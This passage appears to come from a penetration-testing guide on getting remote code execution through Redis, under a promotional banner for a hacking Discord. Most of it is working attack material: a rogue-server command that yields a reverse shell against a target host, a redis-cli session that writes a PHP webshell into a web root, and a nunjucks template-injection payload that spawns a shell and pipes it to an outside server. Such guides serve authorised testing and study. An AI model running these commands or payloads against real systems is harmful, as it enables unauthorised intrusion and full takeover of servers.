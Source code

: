 **Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Redis RCE

### Interactive Shell

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) can automatically get an interactive shell or a reverse shell in Redis(<=5.0.5).

```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```

### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

### Template Webshell

Like in the previous section you could also overwrite some html template file that is going to be interpreted by a template engine and obtain a shell.

For example, following [**this writeup**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/), you can see that the attacker injected a **rev shell in an html** interpreted by the **nunjucks template engine:**

```javascript
{{ ({}).constructor.constructor(
  "var net = global.process.mainModule.require('net'),
       cp = global.process.mainModule.require('child_process'),
       sh = cp.spawn('sh', []);
   var client = new net.Socket();
   client.connect(1234, 'my-server.com', function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
   });"
)()}}
```

